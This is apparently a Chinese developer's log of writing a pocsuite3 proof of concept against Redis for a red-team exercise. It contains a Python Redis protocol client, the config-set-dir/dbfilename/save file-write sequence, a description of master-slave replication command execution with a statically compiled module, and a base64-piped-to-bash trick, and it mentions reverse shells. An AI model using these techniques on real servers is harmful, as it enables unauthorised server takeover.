






# redis exp研究

最近为了护网开始整理poc，整理到redis这类，这是一个编写日志。

搜索https://paper.seebug.org/?keyword=redis 中的几篇文章，有几种方式

  * 写文件
  * 基于主从复制模式命令执行
  * Lua rce


lua rce影响的版本比较低，暂时不考虑了，于是开始着手，对redis poc的验证功能，写文件功能，基于主从复制的命令执行功能进行编写。整个功能下来需要实现一个简单的redis client,同时保证下主从复制模式下能够支持大部分系统。

redis client还是很好模拟的，基本上就是纯文本发送，实现的用的是vulhub中的例子。
```python 
DELIMITER = b"\r\n"


class RedisClient(object):
    def __init__(self, rhost, rport):
        self.client = socket.create_connection((rhost, rport), timeout=20)

    def send(self, data):
        data = self.encode(data)
        self.client.send(data)
        logger.info("send data: %r", data)
        return self.recv()

    def recv(self, count=65535):
        data = self.client.recv(count)
        logger.info("receive data: %r", data)
        return data

    def encode(self, data):
        if isinstance(data, bytes):
            data = data.split()

        args = [b'*', str(len(data)).encode()]
        for arg in data:
            args.extend([DELIMITER, b'$', str(len(arg)).encode(), DELIMITER, arg])

        args.append(DELIMITER)
        return b''.join(args)

```

验证模式下发送个`info server`来获取redis信息就好了，当然也可以发送`ping`，但`info server`可以多获取些信息吧。



写文件的功能利用的是redis文件存储的功能

对redis发送几条命令
``` 
set x payload
config set dir /data
config set dbfilenname test
save

```

redis就会将自身的记录文件存储在 /data/test文件下，所以我写的poc在写文件模式下只用接受两个参数，`filename`,`content`即可，就实现了写入文件呢。



基于主从复制模式，这个需要编译一个redis支持库来作为插件执行任意代码，但是发现这个插件并不能支持所有系统，我在docker中用alpine镜像编译，却不能到debian中使用，所以找啊找啊，发现支持库并没有依赖其他东西，于是将makefile加入了静态编译的参数



这下编译的so就是不依赖系统的了。

对比一下，发现没有静态编译时redis插件大小只有20k，静态编译后有200多k了，没办法，将这200多k内置到poc中，就能完美运行了。

执行任意命令：

执行任意命令的时候可能会有一些特殊字符导致执行失败，可能是插件里哪没处理好，不想看那源码，用个命令执行小tips绕过去，将要执行命令base64编码下，然后实际执行`echo "base64 pyload"|base64 -d|bash`就好了。



反弹shell





## End

最终达到的目标，只需要利用该poc即可写入任意文件，执行任意命令，甚至反弹shell，只需要依赖`pocsuite3`，除此之外便不依赖任何环境了，所有redis的问题，都被这一个poc解决了。

现在想想，还是很神奇的，写这poc之前，对redis只有一知半解，写完后，通过小小的poc，即使不懂redis，几行命令便可以控制服务器，如此大的成就感心里还是很激动的～
